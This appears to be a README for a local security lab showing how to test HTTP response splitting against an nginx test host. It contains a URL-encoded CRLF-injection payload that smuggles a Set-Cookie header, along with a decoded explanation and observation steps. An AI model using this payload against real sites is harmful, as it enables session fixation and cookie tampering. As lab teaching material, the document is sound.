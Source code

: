 # Instructions for HTTP Response Splitting testing

1. Start nginx container
    - See instructions: TODO
2. Make GET requests to following paths
   - You can use incognito window to have a clean start 
   ```
   # This is a path without payload
   $ http://whaleback.test.local/valaat/whales/1
   
   # This path contains a payload part
   $ http://whaleback.test.local/valaat/whales/2%0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   
   # The payload: %0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   # %0d%0a = URL encoded "\r\n" (CRLF)
   # Set-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F = URL encoded "Set-Cookie:sessiontoken=123ABC;path=/" 
   
   # The payload sets a cookie "sessiontoken" with value "123ABC" and sets the path for that cookie to be "/" 
   ```
3. Observe the results
   - Check the cookies before running the first GET request
   - See what kind of requests the browser makes
   - Check what headers the responses of the requests have
   - Check the cookies after the GET request with payload has been sent
4. Make a new GET request to a different path like following and observe the results: 
   ```
   # Use this path
   $ http://whaleback.test.local/echorequest
   ```
   - Notice that the request has the cookie set which we set with the request with the payload









































































